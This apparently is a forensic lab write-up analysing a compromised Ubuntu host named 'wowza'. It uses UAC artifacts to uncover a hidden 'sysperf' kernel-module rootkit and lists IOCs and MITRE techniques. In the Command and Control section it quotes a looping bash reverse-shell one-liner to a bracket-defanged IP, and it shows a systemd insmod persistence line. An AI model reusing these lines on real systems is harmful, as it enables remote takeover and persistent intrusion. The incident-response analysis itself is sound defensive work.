


## Overview

A containerised Linux server was compromised via network intrusion. The attacker escaped the container to the underlying host, killed an active packet capture process, installed a kernel-level rootkit, and cleaned up installation artifacts before disconnecting. Days later the host exhibited classic rootkit symptoms — hidden processes, unexplained network connections, and system instability. A UAC live response collection was performed on the live system for forensic analysis.

---

## Environment

|Field|Value|
|---|---|
|Hostname|`wowza`|
|Kernel|`5.4.0-216-generic`|
|OS|Ubuntu Linux|
|Collection Tool|UAC (Unix Artifacts Collector)|
|Collection Time|2025-11-24 23:36 UTC|

---

## Analysis

### Host Identification

Initial triage from UAC artifacts confirmed the system identity via `live_response/system/uname_-a.txt`:

```
Linux wowza 5.4.0-216-generic #236-Ubuntu SMP Fri Apr 11 19:53:21 UTC 2025 x86_64 GNU/Linux
```

### Rootkit Identification

Rather than trusting `lsmod` output directly, the UAC collection allows cross-referencing userspace tool output against kernel filesystem artifacts — a critical technique when dealing with rootkits that hook syscalls to hide themselves.

Comparing two independent sources revealed the discrepancy:

|Source|sysperf present?|
|---|---|
|`lsmod` output|❌ Not listed|
|`/sys/module/` filesystem|✅ `drwxr-xr-x 5 root root 0 Nov 24 23:36 sysperf`|

A legitimate module absent from `lsmod` but present in `/sys/module/` is a classic rootkit signature — the rootkit hooks the syscall used by `lsmod` to filter itself from output while remaining loaded in the kernel.

### Kernel Taint Confirmation

`dmesg` analysis provided independent confirmation of the malicious module load:

```
[ 9127.292300] sysperf: loading out-of-tree module taints kernel.
[ 9127.293082] sysperf: module verification failed: signature and/or required key missing - tainting kernel
```

Three red flags confirmed simultaneously:

- **Out-of-tree** — not part of the official Linux kernel source
- **Unsigned** — no trusted signing key, bypasses Secure Boot enforcement
- **Kernel taint value 12288** — confirms non-standard module loaded

Converting the dmesg uptime timestamp `9127.292300` seconds against the system boot time places the rootkit load at **2025-11-24 23:31 UTC** — approximately 5 minutes before the UAC collection timestamp.

### Command and Control

The rootkit established C2 communication to `185[.]220[.]101[.]50` on port `4444`. A more resilient persistent reverse shell was also identified configured to reconnect every 30 seconds on port `9999`:
bash

```zsh
bash -c while true; do bash -i >& /dev/tcp/185[.]220[.]101[.]50/9999 0>&1; sleep 30; done
```



### Persistence Mechanism

To survive reboots the attacker created a systemd service to automatically reload the rootkit kernel module on startup:

**Service path:** `/etc/systemd/system/sysperf[.]service`

ini

```ini
ExecStart=/sbin/insmod /lib/modules/sysperf.ko
```

This service is responsible for spawning the persistent reverse shell root process at PID `39303`.



`
## IOCs 

| Type                    | Value                                                              |
| ----------------------- | ------------------------------------------------------------------ |
| Malicious kernel module | `sysperf.ko`                                                       |
| Module SHA256           | `ded20890c28460708ea1f02ef50b6e3b44948dbe67d590cc6ff2285241353fd8` |
| C2 IP                   | `185[.]220[.]101[.]50`                                             |
| C2 Port (initial)       | 4444                                                               |
| C2 Port (persistent)    | 9999                                                               |
| Persistence path        | `/etc/systemd/system/sysperf[.]service`                            |
| Module load time        | `2025-11-24 23:31 UTC`                                             |
## MITRE ATT&CK

|Technique|ID|
|---|---|
|Rootkit|T1014|
|Kernel Modules and Extensions|T1547.006|
|Systemd Service|T1543.002|
|Command and Scripting Interpreter: Unix Shell|T1059.004|
|Application Layer Protocol|T1071|
|Container Escape|T1611|
|Indicator Removal|T1070|


---

## Key Takeaway

The critical forensic insight here is **cross-referencing independent data sources**. A rootkit can hook userspace syscalls to hide from tools like `lsmod`, `ps`, and `netstat` — but UAC reads directly from the kernel filesystem (`/sys/module/`) bypassing those hooks entirely. The discrepancy between what `lsmod` reported and what `/sys/module/` contained was the thread that unravelled the entire compromise.


























